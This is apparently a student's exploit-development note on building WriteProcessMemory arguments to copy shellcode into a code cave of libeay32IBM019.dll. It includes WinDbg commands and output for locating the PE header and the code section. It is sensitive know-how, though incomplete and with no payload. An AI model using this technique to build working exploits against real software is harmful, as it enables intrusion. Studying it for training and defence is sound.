 ## WriteProcessMemory argument crafting
- hProcess is the handle to the process we want to interact with. Since the API call will be performed from the context of our process, we don't need to supply a handle and we can supply a pseudo handle **Note: The pseudo handle is a special constant with the value -1 that, when used, indicates that the handle is a handle to the calling process.** This way we can add -1 and we avoid having to obtain a handle to our process.
- The second argument, lpBaseAddress, is the absolute memory address inside the code section where we want our shellcode to be copied. In principle, this address could be anywhere inside the code section because it has the correct memory protections, but overwriting existing code could cause the application to crash.
	- To avoid crashing the application, we need to locate unused memory inside the code section and copy our shellcode there. When the code for an application is compiled, the code page of the resulting binary must be page-aligned. If the compiled opcodes do not exactly fill the last used page, it will be padded with null bytes.
	- Exploit developers refer to this padded area as a **code cave**. The easiest way to find a code cave is to search for n**ull bytes at the end of a code section’s upper bounds**. Let’s begin our search by navigating the PE header364 to locate the start of the code pages.
**Note: We can find the offset to the PE header by dumping the DWORD at offset 0x3c from the MZ header**:
```c
0:077> dd libeay32iBM019+3c L1
02f7003c  00000108
```
Once we know this offset, we add 0x2C to the offset to find the **offset to the code section**:
```c
0:077> dd libeay32IBM019 + 108 + 2c L1 
031f0134 00001000

0:077> ? libeay32IBM019 + 1000
Evaluate expression: 49745920 = 02f71000
```
Once we are in the code section, let's check the address permissions and get information about such section:
```c
0:077> 
0:077> !address 02f71000

Usage:                  Image
Base Address:           02f71000
End Address:            03003000
Region Size:            00092000 ( 584.000 kB)
State:                  00001000          MEM_COMMIT
Protect:                00000020          PAGE_EXECUTE_READ
Type:                   01000000          MEM_IMAGE
Allocation Base:        02f70000
Allocation Protect:     00000080          PAGE_EXECUTE_WRITECOPY
Image Path:             C:\Program Files\ibm\gsk8\lib\N\icc\osslib\libeay32IBM019.dll
Module Name:            libeay32IBM019
Loaded Image Name:      
Mapped Image Name:      
More info:              lmv m libeay32IBM019
More info:              !lmi libeay32IBM019
More info:              ln 0x2f71000
More info:              !dh 0x2f70000


Content source: 1 (target), length: 92000

```
